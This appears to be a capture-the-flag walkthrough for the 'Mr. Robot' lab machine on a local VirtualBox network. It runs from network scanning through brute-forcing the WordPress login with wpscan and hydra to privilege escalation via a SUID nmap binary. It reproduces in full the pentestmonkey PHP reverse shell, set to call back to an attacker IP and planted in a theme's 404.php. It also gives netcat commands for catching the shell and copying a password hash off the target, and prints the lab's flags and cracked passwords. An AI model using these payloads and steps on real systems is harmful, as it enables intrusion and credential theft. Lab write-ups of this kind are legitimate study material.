



# mrRobot
## Recon
```bash
arp.scan -I wlo0 --localnet
# ans
192.168.1.3	08:00:27:b1:f6:58	PCS Systemtechnik GmbH
192.168.1.1	f8:79:28:89:8b:0a	(Unknown)
192.168.1.2	e0:03:6b:1b:03:57	Samsung Electronics Co.,Ltd
192.168.1.4	6c:48:a6:e9:7a:81	(Unknown)
192.168.1.5	38:30:f9:46:4d:09	LG Electronics (Mobile Communications)
192.168.1.6	ac:fa:e4:c9:8d:79	(Unknown)
192.168.1.9	6e:fc:dc:af:45:09	(Unknown: locally administered)
192.168.1.7	0e:b8:ec:b5:4c:7b	(Unknown: locally administered)
192.168.1.11	38:f9:d3:29:3f:e1	Apple, Inc.
192.168.1.12	88:e9:fe:76:8e:ef	Apple, Inc.

ping -c 1 192.168.1.3
# ans
--- 192.168.1.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.608/0.608/0.608/0.000 ms

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.3 -oG allPorts
# ans
Scanning 192.168.1.3 [65535 ports]
Discovered open port 80/tcp on 192.168.1.3
Discovered open port 443/tcp on 192.168.1.3

nmap -sCV -p80,443 192.168.1.3 -oN targeted
# ans
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 08:00:27:B1:F6:58 (Oracle VirtualBox virtual NIC)

whatweb http://192.168.1.3
# ans
http://192.168.1.3 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache], IP[192.168.1.3], Script, UncommonHeaders[x-mod-pagespeed], X-Frame-Options[SAMEORIGIN]

wfuzz -c -L -t 300 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://192.168.1.3/FUZZ

# ans
User-agent: *
fsocity.dic
key-1-of-3.txt

what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?

```

## Vuln
- Burpsuite

```bash
POST /wp-login.php HTTP/1.1
Host: 192.168.1.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: http://192.168.1.3
Connection: keep-alive
Referer: http://192.168.1.3/wp-login.php
Cookie: s_cc=true; s_fid=5EFED3622A842C0C-183FCDF84E8F2F16; s_nr=1774241160058; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1
Priority: u=0, i

log=Elliot&pwd=sadfsafasdf&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.1.3%2Fwp-admin%2F&testcookie=1

# bruteforce
wpscan --url http://192.168.1.3/wp-login.php --usernames Elliot --passwords clean_fsocity.dic

# ans
[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652

# using Hydra
hydra -l Elliot -P clean_fsocity.dic 192.168.1.3 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=ERROR" # F=ERROR, Puy only a word that matches when it appears

# ans
[STATUS] 2479.00 tries/min, 2479 tries in 00:01h, 8973 to do in 00:04h, 16 active
[80][http-post-form] host: 192.168.1.3   login: Elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-03-22 23:15:33

```
- Search for themes (404.php)


```bash
# PENTESTMONKEY
# search for php reverse shell (web)
# or this is in kali

cat /usr/share/webshells/php/php-reverse-shell.php
```
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.17';  // CHANGE THIS
$port = 4321;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 

```

```bash
# change IP and PORT into file 
# copy and paste file into 404.php
# open netcat
nc -nlvp 4321

# open an resource that not exists
http://192.168.1.3/este_archivo_no_existe.php

# TTY
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 52 columns 187

python -c 'import pty; pty.spawn("/bin/bash")' # using python
ctrl + z
sty raw -echo; fg
export TERM=xterm # export TERM=xterm-256color

```
## PrivEsc
```bash
cd /home/robot
#ans
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5

# transfer file
nc -nlvp 1337 > password.raw-md5 # kali
nc 192.168.1.17 1337 < password.raw-md5 # victims machine

# we can do the same taks using python server
 python -m SimpleHTTPServer 1337

# Using john for decrypt
gunzip rockyou.txt.gz

john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt password.raw-md5
# ans
abcdefghijklmnopqrstuvwxyz

# Viewing pass
john --show --format=Raw-MD5 password.raw-md5

su robot
cat key-2-to-3.txt
#ans

822c73956184f694993bede3eb39f959

# SUID
find \-perm -4000 -type f 2>/dev/null

# ans
./bin/ping
./bin/umount
./bin/mount
./bin/ping6
./bin/su
./usr/bin/passwd
./usr/bin/newgrp
./usr/bin/chsh
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/sudo
./usr/local/bin/nmap
./usr/lib/openssh/ssh-keysign
./usr/lib/eject/dmcrypt-get-device
./usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
./usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
./usr/lib/pt_chown

/usr/local/bin/nmap # vuln

cd /root
cat key-3-of-3.txt
# ans
04787ddef27c3dee1ee161b21670b4e4

```
## PWNED

